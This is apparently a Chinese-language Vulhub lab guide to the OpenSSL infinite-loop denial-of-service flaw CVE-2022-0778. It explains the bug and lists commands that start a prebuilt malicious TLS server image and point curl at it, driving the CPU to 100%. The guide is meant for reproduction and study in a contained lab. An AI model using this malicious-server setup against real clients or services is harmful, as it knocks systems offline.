

# OpenSSL无限循环DOS漏洞（CVE-2022-0778）

OpenSSL是一个开放源代码的软件库包，应用程序可以使用这个包来进行安全通信，避免窃听，同时确认另一端连接者的身份。这个包广泛被应用在互联网的网页服务器上。

OpenSSL 1.1.1m 版本及以前存在一处逻辑缺陷，攻击者可以利用一个无效的椭圆曲线参数证书，触发一个无限循环导致耗尽目标CPU。由于证书解析发生在验证证书签名之前，任何解析外部提供的证书的进程都可能受到拒绝服务的攻击。

参考链接：

- <https://github.com/drago-96/CVE-2022-0778>
- <https://www.cnblogs.com/logchen/p/16030515.html>
- <https://catbro666.github.io/posts/83951100/>
- <https://github.com/yywing/cve-2022-0778>

## 漏洞环境

执行如下命令启动一个server：

```
docker-compose up -d
```

## 漏洞复现

首先，使用[这个项目](https://github.com/vulhub/cve-2022-0778)中的代码编译并运行一个恶意服务器。如果你没有Golang相关编译环境，也可以直接使用如下Docker命令启动：

```
docker run -it --rm -p 12345:12345 yywing/cve-2022-0778 --addr 0.0.0.0:12345
```

然后，你可以在Vulhub环境中使用`top`命令来查看此时的CPU占用：

```
docker-compose exec curl top
```

由于这个漏洞是发生在解析TLS证书时，所以我们可以使用cURL来复现这个漏洞。进入容器，并执行cURL命令访问前面启动的恶意服务器：

```
docker-compose exec curl bash
curl -k https://host.docker.internal:12345
```

此时，cURL会陷入死循环，查看`top`中的CPU占用即可发现已经100%：


